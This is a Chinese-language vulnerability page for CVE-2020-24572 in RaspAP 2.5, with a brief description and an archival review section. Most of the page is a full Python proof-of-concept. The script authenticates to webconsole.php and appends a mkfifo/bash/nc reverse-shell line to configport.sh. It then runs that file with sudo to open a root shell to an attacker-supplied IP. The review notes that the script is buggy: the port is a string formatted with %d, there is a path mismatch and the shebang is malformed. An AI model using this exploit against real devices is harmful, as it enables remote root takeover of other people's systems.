


# （CVE-2020-24572）RaspAP 2.5 远程命令执行漏洞

<!-- article-review:devices:begin -->
## 技术校订与证据边界（2026-10-02）

- 产品/组件：RaspAP 2.5
- 本文讨论：CVE-2020-24572 webconsole不受限命令执行
- 版本、权限与配置前提：管理员密码、可写configport.sh及sudo权限
- 资料类型：认证后PoC脚本；本次仅核对归档正文，未执行 PoC、未请求目标，未把原作者的“复现成功”继承为本库验证结果

### 逐项校订

- listener_port直接取sys.argv字符串却以%d格式化，脚本在发请求前会TypeError
- 简介include/webconsole.php与脚本includes/webconsole.php不一致
- 图片语法后有重复路径尾巴；shebang缺!；无固定版本
- 历史校订意见（原始示例按归档保留，下述改写不再应用于原始示例）：“`include/webconsole.php`”改为“`includes/webconsole.php`”；“#/usr/bin/python3”改为“#!/usr/bin/python3”；“listener_port = sys.argv[4]”改为“listener_port = int(sys.argv[4])”；补齐文章标题。以上意见置于原始示例之外，不覆盖原文证据；未做运行验证
- 原代码保留端口字符串参与 %d 格式化及原始 shebang；可能的 TypeError 和 shebang 校订意见置于示例之外，保留原利用链。脚本追加修改 configport.sh 且使用 FIFO/反向连接，测试后须按隔离环境快照恢复，不能把 HTTP 返回当成 root 会话证据。

### 操作风险与恢复

- 执行文中载荷可能以目标进程权限启动命令或加载代码；权限受认证角色、操作系统账户及依赖版本约束，不能把 root/200 等通用字符串当成功证据

### 待核与来源

- webconsole真实路径、文件可写/sudo边界及修复版本待确认
- 引用图片未查看，截图内容及有效性待核验
- 文内原始链接和图片引用继续保留；未检查图片像素、未下载或执行外部附件。版本边界、修复/在野状态及厂商归属若缺一手依据，均不能视为本次已确认
- 下方保留原技术正文与载荷；其中历史时间表述和成功主张应按本节限定阅读
<!-- article-review:devices:end -->

（CVE-2020-24572）RaspAP 2.5 远程命令执行漏洞
=============================================

一、漏洞简介
------------

在RaspAP
2.5的`include/webconsole.php`中发现了一个问题。借助经过身份验证的访问，攻击者可以使用配置错误（并且实际上不受限制）的Web控制台攻击运行该软件的底层OS（Raspberry
Pi），并在系统上执行命令（包括用于上传文件和执行代码的命令）。

二、漏洞影响
------------

RaspAP 2.5

三、复现过程
------------

### poc

> CVE-2020-24572.py

RaspAP2.5远程命令执行漏洞/media/rId25.png)RaspAP2.5远程命令执行漏洞/media/rId26.png)

    #/usr/bin/python3

    #####################################################
    ##############       deadb0x.io        ##############
    #####################################################
    ###      Proof of Concept for CVE-2020-24572      ###
    ###     (Authenticated) Remote Code Execution     ###
    ###             via Webconsole.php in             ###
    ###                  RaspAP v2.5                  ###
    ###         github.com/billz/raspap-webgui        ###
    ###         github.com/nickola/web-console        ###
    #####################################################
    ### Written by: lunchb0x - Disc. Date: 08/24/2020 ###
    #####################################################
    ###       deadb0x.io/lunchb0x/CVE-2020-24572      ###
    ###         github.com/lb0x/CVE-2020-24572        ###
    #####################################################

    import os
    import sys
    import requests
    from termcolor import colored

    if len(sys.argv) != 6:
        print("---------------------------------------------------------------------------------------")
        print("USAGE: rasp_pwn.py [target_ip] [port] [attacker_ip] [attacker_port] [RaspAP_admin_pass]")
        print("---------------------------------------------------------------------------------------")
        exit(1)

    target = sys.argv[1]
    port = sys.argv[2]
    listener_ip = sys.argv[3]
    listener_port = sys.argv[4]
    raspap_user = "admin"
    raspap_pass = sys.argv[5]

    session = requests.Session()
    session.auth = (raspap_user, raspap_pass)

    json_req_1 = {
                  "jsonrpc":"2.0",
                  "method":"run",
                  "params":["NO_LOGIN",
                            {"user":"","hostname":"","path":""},
                            "echo 'touch \/tmp\/f;rm \/tmp\/f;mkfifo \/tmp\/f;cat \/tmp\/f|\/bin\/bash -i 2>&1|nc %s %d >\/tmp\/f' >> \/etc\/raspap\/lighttpd\/configport.sh"%(listener_ip, listener_port)
                            ],
                  "id":6
                  }

    json_req_2 = {
                  "jsonrpc":"2.0",
                  "method":"run",
                  "params":["NO_LOGIN",
                            {"user":"","hostname":"","path":""},
                            "sudo /etc/raspap/lighttpd/configport.sh"
                            ],
                  "id":6
                  }

    r = session.post("http://%s:%s/includes/webconsole.php"%(target,port), json=json_req_1)
    print(colored("[!]", 'green') + " Reverse shell injected")
    print(colored("[!]", 'yellow') + " Sending activation request - Make sure your listener is running . . .")
    os.system("stty -echo")
    input(colored("[>>>]", 'green')+" Press ENTER to continue . . .")
    os.system("stty echo")
    print(colored("\n[!]", 'green') + " You should be root :)")

    r = session.post("http://%s:%s/includes/webconsole.php"%(target,port), json=json_req_2)
    print(colored("[*]", 'green') + " Done.")

    print(colored("----------------", 'yellow'))
    print(colored("[] deadb0x.io", 'yellow'))
    print(colored("----------------", 'yellow'))

参考链接
--------

> https://deadb0x.io/lunchb0x/cve-2020-24572/
